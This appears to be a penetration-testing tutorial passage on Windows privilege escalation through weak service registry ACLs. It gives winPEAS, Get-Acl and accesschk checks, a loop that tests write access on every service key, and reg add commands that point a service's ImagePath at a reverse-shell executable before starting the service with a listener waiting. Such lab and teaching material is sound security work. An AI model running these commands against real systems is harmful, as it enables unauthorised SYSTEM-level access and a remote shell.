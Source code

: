 The Windows registry stores entries for each service.  
Since registry entries can have ACLs, if the ACL is  
misconfigured, it may be possible to modify a service’s  
configuration even if we cannot modify the service  
directly.

1.Run winPEAS to check for service misconfigurations:  
`.\winPEASany.exe quiet servicesinfo`

> 2.Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:
> 
> > [+] Looking if you can modify any service registry()  
> > [?] Check if you can modify the registry of a service HKLM\system\currentcontrolset\e services\regsvc (Interactiv[TakeOwnership])

`PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List`

3.Alternatively accesschk.exe can be used to confirm:  
`.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

4.Overwrite the ImagePath registry key to point to our reverse shell executable:  
`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

5.Start a listener on Kali, and then start the service to trigger the exploit:  
`> net start regsvc`

You should check if you can modify any service registry.  
You can **check** your **permissions** over a service **registry** doing:

```bash
reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

#Try to write every service with its current content (to check if you have write permissions)
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

It should be checked whether **Authenticated Users** or **NT AUTHORITY\INTERACTIVE** possess `FullControl` permissions. If so, the binary executed by the service can be altered.

To change the Path of the binary executed:

```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```